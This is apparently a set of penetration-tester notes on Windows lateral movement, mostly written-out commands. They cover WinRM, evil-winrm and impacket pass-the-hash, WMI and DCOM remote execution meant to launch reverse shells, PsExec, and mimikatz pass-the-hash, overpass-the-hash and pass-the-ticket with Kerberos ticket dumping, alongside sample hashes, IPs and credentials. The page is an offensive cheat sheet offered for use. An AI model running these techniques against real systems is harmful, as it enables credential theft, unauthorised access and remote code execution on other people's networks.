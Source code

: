 ## Lateral Movement

### Powershell Creds Block

For both WinRM and WMI make use of the following to generate a `$credential` variable:
```powershell
$username = 'chump';
$password = 'chumpsDogsName123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

### WinRM

Assuming you have credentials, the following will give us a Powershell session 
```powershell
New-PSSession -ComputerName 192.168.12.34 -Credential $credential
Enter-PSsession 1
```

### evil-winrm

The same thing but from Kali, and passing the hash instead of password:
```bash
evil-winrm -i 172.16.xx.xx -u chump -H <chumps NT hash>
```

### WMI

If for some reason we cannot use WinRM, or if we'd rather have a reverse shell from Kali, then worth trying WMI as an alternative:
```powershell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.12.34 -Credential $credential -SessionOption $Options
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
The `$Command` variable used above that isn't explicitly defined anywhere should be a base64 encoded reverse shell written in Powershell as detailed in `notes/shells.md`

### PsExec

This will need to be imported onto the machine, but once there very convenient. Comes as part of the SysInternals suite.
```powershell
./PsExec64.exe -i  \\TARGE-MACHINE -u corp\chump -p chumpsPassword cmd
```

### Pass the Hash - SMB Shares

Assuming we have already laid our hands on an NTLM hash courtesy of `mimikatz`, the following command will give us access to an SMB Share with those credentials:
```bash
smbclient \\\\<IP address or computer name>\\<share name> -U <user name> --pw-nt-hash <user hash>
```
for example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

### Pass the Hash - Reverse Shell

We can authenticate to just about anything if the user whose hash we've obtained exists on the target machine, but as usual the holy grail is to just obtain a reverse shell:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:<user hash> <user name>@<target IP>
```

### Pass the Hash - CMD Shell

Now with the Impacket suite:
```powershell
/usr/bin/impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.12.34
```

### Pass the Hash - Mimikatz

As if we needed another way of doing this, but here it is again with Mimikatz:
```
mimikatz # sekurlsa::pth /user:chump /domain:corp.com /ntlm:7a38310ea6f0027ee955abed1762964b /run:powershell
```

### Overpass the Hash

Instead of merely leveraging an NTLM hash to authenticate as a user, we could use it to obtain a Ticket Granting Ticket (TGT). This will allow us to make use of services that authenticate via Kerberos, and do not accept NTLM hashes. Namely the SysInternals PsExec.exe program.

First auth against a network share to make sure there is a TGT cached on the machine:
```powershell
net use \\machine07
```
Verify a TGT has been cached:
```powershell
klist
```
Now leverage to obtain a shell on a machine that we otherwise might not have been able to:
```powershell
.\PsExec.exe \\files04 cmd
```

### Pass the Ticket

Dump all TGT and TGSs present on the machine we have an admin presence on:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
Load the ticket we like the look of into our current session:
```
mimikatz # kerberos::ptt name-of-ticket-we-liked.kirbi
```
This should give our current session any privilege that that ticket grants that we didn't have already. Eg. the ability to view previously restricted files in a network fileshare.

### DCOM

To create a DCOM object:
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.12.34"))
```
To leverage it to execute commands:
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"<our payload>","7")
```
For the payload section, once again we should make use of a base64 encoded Powershell reverse shell as detailed in `notes/shells.md`.
